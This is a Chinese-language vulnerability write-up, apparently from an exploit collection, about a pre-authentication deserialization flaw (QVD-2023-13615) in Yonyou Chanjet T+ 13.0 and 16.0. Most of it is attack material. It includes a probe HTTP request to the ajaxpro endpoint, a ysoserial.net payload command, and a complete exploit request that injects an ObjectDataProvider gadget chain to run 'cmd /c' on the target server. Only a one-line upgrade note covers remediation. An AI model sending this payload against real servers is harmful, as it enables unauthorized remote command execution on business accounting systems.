 # 用友 畅捷通 T+ 前台远程命令执行漏洞 QVD-2023-13615

## 漏洞描述

由于用友畅捷通 T+前台存在反序列化漏洞，恶意攻击者成功利用此漏洞可在目标服务器上执行任意命令。

## 漏洞影响

```
T+13.0
T+16.0
```

## 漏洞复现

poc

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
X-Ajaxpro-Method: GetStoreWarehouseByStore
 
{
  "storeID":{}
}
```

使用ysoserial.net工具构造payload

```
./ysoserial.exe -f JavaScriptSerializer -g ObjectDataProvider -c "执行的命令"
```

exp

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
X-Ajaxpro-Method: GetStoreWarehouseByStore
 
{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c 执行的命令"
        }
    }
  }
}
```

## 漏洞修复

目前官方已修复该漏洞，受影响用户可以升级更新到安全版本。官方下载链接：https://www.chanjetvip.com/product/goods/